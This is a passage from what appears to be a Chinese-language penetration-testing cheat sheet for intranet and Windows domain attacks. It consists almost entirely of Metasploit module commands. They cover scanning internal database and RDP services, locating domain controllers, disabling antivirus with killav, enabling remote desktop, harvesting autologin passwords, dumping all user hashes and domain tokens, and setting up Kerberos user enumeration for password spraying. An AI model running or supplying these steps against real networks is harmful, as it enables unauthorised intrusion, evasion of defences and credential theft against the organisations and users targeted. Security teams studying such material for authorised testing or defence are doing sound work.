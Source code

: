 ```
use auxiliary/scanner/mssql/mssql_schemadump #发现内网SQLServer服务,基于默认的1433端口
use auxiliary/scanner/oracle/oracle_hashdump #发现内网oracle服务,基于默认的1521端口
auxiliary/scanner/mysql/mysql_version #发现内网mysql服务，基于默认3306端口
auxiliary/scanner/rdp/rdp_scanner #发现内网RDP服务，基于默认3389端口
auxiliary/scanner/redis/redis_server #发现内网Redis服务，基于默认6379端口
auxiliary/scanner/db2/db2_version #探测内网的db2服务，基于默认的50000端口
auxiliary/scanner/netbios/nbname

```

收集域信息

```
run post/windows/gather/enum_logged_on_users #查看登录过的用户信息
run post/windows/gather/enum_ad_groups #查看组信息
run post/windows/gather/enum_domain #定位域控
run post/windows/gather/enum_ad_computers #域内所有机器
use post/windows/gather/enum_patches #发现缺失的补丁
use post/multi/recon/local_exploit_suggester #快速识别可能被利用的漏洞
run post/windows/manage/migrate #自动进程迁移
run post/windows/gather/checkvm #查看目标主机是否运行在虚拟机上
run post/windows/manage/killav #关闭杀毒软件
run post/windows/manage/enable_rdp #开启远程桌面服务
run post/windows/manage/autoroute #查看路由信息
run post/windows/gather/enum_logged_on_users #列举当前登录的用户
run post/windows/gather/enum_applications #列举应用程序
run post/windows/gather/credentials/windows_autologin #抓取自动登录
的用户名和密码
run post/windows/gather/smart_hashdump #dump出所有用户的hash
run post/windows/gather/enum_domain_tokens #寻找域token

```

定位域控、抓取密码、查看域内主机<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/fc8b665f1da45f58a48d6fbff77465e1.jpeg"/>

#### 密码喷洒

```
auxiliary/gather/kerberos_enumusers #Kerberos 用户名枚举–用户名字典
set DOMAIN XIAODI.LOCAL
set rhosts 192.168.200.134
set user_file 字典路径
exploirt

```
